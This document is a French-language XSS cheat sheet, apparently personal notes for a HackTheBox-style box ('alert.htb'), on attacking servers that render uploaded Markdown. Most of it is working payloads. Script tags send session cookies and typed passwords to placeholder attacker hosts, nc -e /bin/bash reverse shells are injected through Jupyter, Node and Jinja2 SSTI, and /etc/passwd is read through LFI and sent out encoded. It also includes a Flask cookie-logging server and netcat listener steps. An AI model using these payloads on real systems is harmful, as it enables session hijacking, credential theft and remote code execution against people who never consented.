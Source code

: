 # Exécuter le XSS avec les fichiers au format .md


Lors du téléchargement d'un fichier qui peut être traité par le serveur au format HTML, nous devons garder à l'esprit que tout ce qui est traité en HTML est probablement vulnérable à XSS (exécution de javascript).

Le fichier markdown est un fichier d'usage courant principalement dans github avec l'extension ".md" (README) dont le but est de décrire un procéssus, une installation etc... 
Une fois ce fichier soumis au serveur, certains serveurs peuvent procéder comme du HTML avant de le stocker.
Là, nous pouvons effectuer du XSS comme suit :



📜 Exploit 1️⃣ : XSS avec Markdown → RCE via JavaScript

Si le serveur convertit le Markdown en HTML mais ne filtre pas les balises <script>, on peut injecter du JS malveillant :

# Test d'Injection XSS
<script>
    fetch("http://ton-serveur.com/steal?cookie=" + document.cookie);
</script>

➡️ Impact : Récupération des cookies de session, potentiellement utilisables pour hijacker une session.



📜Exploit 2️⃣ : Injection de code dans un Notebook Jupyter

Si le Markdown est utilisé dans Jupyter Notebook, tu peux exécuter du Python directement :

```python
import os
os.system("nc -e /bin/bash TON_IP TON_PORT")

➡️ **Impact :** Remote Code Execution (RCE) si le serveur exécute le Markdown dans un environnement Jupyter.  

---

### **📜 Exploit 3️⃣ : Inclusion de fichiers (`LFI`)**
Si le serveur permet d'inclure du Markdown à partir d'un chemin local, tu peux essayer ceci :

```markdown
![LFI Test](file:///etc/passwd)

➡️ Impact : Lecture de fichiers système sensibles. Si combiné avec RCE, on peut exécuter du code.


📜 Exploit 4️⃣ : Injection Bash via Markdown dans un CMS

Si le serveur exécute des commandes Markdown dans un CMS comme Ghost, certains supports comme Mermaid.js permettent d’exécuter du JavaScript :

```mermaid
graph TD;
A[Click Me] -->|XSS| B("alert('Hacked!')");

➡️ **Impact :** Possibilité de RCE si le serveur exécute du JavaScript malveillant.  

---






📜 Exploit : XSS pour exfiltrer les cookies

Crée un fichier exploit.md avec le contenu suivant :

# Exploit XSS - Vol de Cookies

<script>
  fetch("http://TON_IP:TON_PORT/cookie?data=" + document.cookie);
</script>

🔹 Étapes d'exploitation :

1️⃣ Lancer un serveur d'écoute sur ta machine pour capturer les cookies :

nc -lvnp 9001

2️⃣ Héberger exploit.md sur la cible et le faire afficher dans un navigateur.

3️⃣ Si le XSS fonctionne, le navigateur de la victime exécutera le script et enverra les cookies sur ta machine.

4️⃣ Les cookies s’affichent dans ton Netcat.
🔹 Améliorations possibles :

    Utiliser une requête AJAX invisible pour envoyer les cookies sans alerter l’utilisateur :

<script>
  var i = new Image();
  i.src = "http://TON_IP:TON_PORT/cookie?data=" + document.cookie;
</script>

    Créer un serveur Flask pour loguer les cookies :

from flask import Flask, request

app = Flask(__name__)

@app.route('/cookie')
def log_cookie():
    cookie = request.args.get('data')
    print(f"Cookie volé : {cookie}")
    return '', 204  # Réponse vide

app.run(host='0.0.0.0', port=9001)








🔥 Méthodes pour obtenir un reverse shell via XSS
1️⃣ Si la cible utilise eval() en JavaScript (Exécution locale)

Si l'application exécute du JS avec eval(), tu peux injecter un reverse shell via WebSockets ou fetch :

<script>
eval(require('child_process').execSync('nc -e /bin/bash TON_IP TON_PORT'));
</script>

📌 Problème : Peu de serveurs utilisent eval() dans du JS exécuté côté serveur.
2️⃣ Exploiter une API REST vulnérable

Si l'application fait des requêtes vers une API qui exécute des commandes, tu peux envoyer une requête malveillante avec XSS :

<script>
fetch("http://alert.htb/api/run?cmd=nc -e /bin/bash TON_IP TON_PORT");
</script>

📌 Utile si l’application a une fonctionnalité "Exécuter une commande"
3️⃣ Si le serveur utilise Node.js avec une vulnérabilité dans res.send()

Si l'application tourne sur Node.js et expose des routes vulnérables, essaie :

<script>
fetch("http://alert.htb/admin?name='+require('child_process').exec('nc -e /bin/bash TON_IP TON_PORT')+'");
</script>

📌 Exploitable si le serveur construit dynamiquement des réponses HTML avec des entrées non filtrées.
4️⃣ Transformer l’XSS en SSTI (Server-Side Template Injection)

Si l’application utilise Jinja2, Twig, ou EJS, tu peux injecter une RCE via SSTI :

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.system("nc -e /bin/bash TON_IP TON_PORT") }}

📌 À tester si l’XSS peut être inséré dans une page qui utilise un moteur de template.
5️⃣ Exploiter un administrateur connecté (CSRF + XSS)

Si un admin est connecté, tu peux utiliser l'XSS pour lui faire exécuter un script qui déclenche une RCE sur le serveur via une page vulnérable :

<script>
fetch("http://alert.htb/admin/run?cmd=nc -e /bin/bash TON_IP TON_PORT", { credentials: "include" });
</script>

📌 Fonctionne si l’admin a plus de privilèges et que l'application a une page de gestion de commandes.


----------LIF avec XSS----------

<script>
    var url = "messages.php?file=../../../../../../../etc/passwd"
    var attacker = "http://ton_ip:ton_port/exfil"
    var xhr = new XMLHttpRequest()
    xhr.onreadystatechange = function () {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
      }
    }
    xhr.open("GET", url, true)
    xhr.send(null)
</script>


------------vol de cookies-------------

<script>
fetch('http://ton_ip:ton_port', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>


--------------vol de mot de passe--------------

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://ton_ip:ton_port',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
